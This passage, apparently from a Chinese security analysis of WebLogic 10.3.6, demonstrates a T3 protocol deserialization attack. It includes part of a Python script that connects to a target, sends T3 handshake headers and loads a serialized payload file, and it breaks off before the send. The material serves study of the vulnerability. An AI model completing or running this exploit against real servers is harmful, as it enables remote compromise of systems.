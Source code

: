 [![](assets/1708095409-27d60b55083f682267ab342e44301b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211121234558-1ed9a7d6-4ae2-1.png)

## T3 协议攻击示例

本次调试分析源码所使用的 weblogic 版本为 10.3.6

### 1、生成序列化 payload

[![](assets/1708095409-8dba87905f5f1794b0eaae4fc891a315.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211121234530-0e4cb2be-4ae2-1.png)

### 2、编写发送数据的脚本

这里笔者在网上找了一份 pyhton 的

```plain
#!/usr/bin/python
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
payloadObj = open(sys.argv[3],'rb').read()

```